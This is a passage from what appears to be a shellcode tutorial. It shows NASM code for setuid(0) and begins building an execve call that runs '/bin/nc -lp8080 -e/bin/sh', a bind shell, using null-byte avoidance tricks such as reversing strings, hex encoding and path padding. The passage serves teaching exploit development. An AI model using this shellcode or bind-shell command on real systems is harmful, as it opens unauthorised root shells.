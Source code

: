 First lets write the `setuid` syscall. Its system call number is `23` (`0x17` in hex). It takes as an argument
`uid = 0`, stored in `ebx` register, but since we aren't allowed to use 
null bytes in the code we'll make use of the xor instruction.

```nasm
section .text  ; defines code section

global _start  

_start:         ; entry point
  xor ebx, ebx      ; XOR ebx with itself. The result is 0 and stored in ebx.
  push byte 0x17
  pop eax           ; Load number 0x17 (setuid) in eax
  int 0x80          ; call setuid(0)
```

For the `execve` system call the arguments must be pushed onto the stack and their addresses loaded in the
registers.   
`ebx -> filename` = `'/bin/nc'`   
`ecx -> argv[]` = `['/bin/nc', '-lp8080', '-e/bin/sh']`  
`edx -> envp[]` = 0  

First the strings should be reversed. You could use python for this. Lets take for 
example the first argument `'/bin/nc'`

```python
>>> '/bin/nc'[::-1]
'cn/nib/'
```

Then convert them to hex and push by groups of four bytes.  
`cn/nib/`

```python
>>> 'nib/'.encode('hex')
'6e69622f'
>>> 'cn/'.encode('hex')
'636e2f'
```

ascii: `cn/`   -> hex: `0x00636e2f` Has a null byte!  
ascii: `nib/`  -> hex: `0x6e69622f`  

When the string length isn't a multiple of four bytes, there are few ways to avoid adding a null byte. I'll show only two, but
you could check [0day.work](https://0day.work/writing-my-first-shellcode-iptables-p-input-accept/) and see another one that uses
the `shr` (shift right) instruction.

One way is to add another slash in the path, so `/bin/nc` becomes `/bin//nc` 
or `//bin/nc`. Multiple `'/'` don't cause problems in linux and 
the path will be read correctly.

ascii: `cn//`  -> hex: `0x636e2f2f`  
ascii: `nib/`  -> hex: `0x6e69622f` 
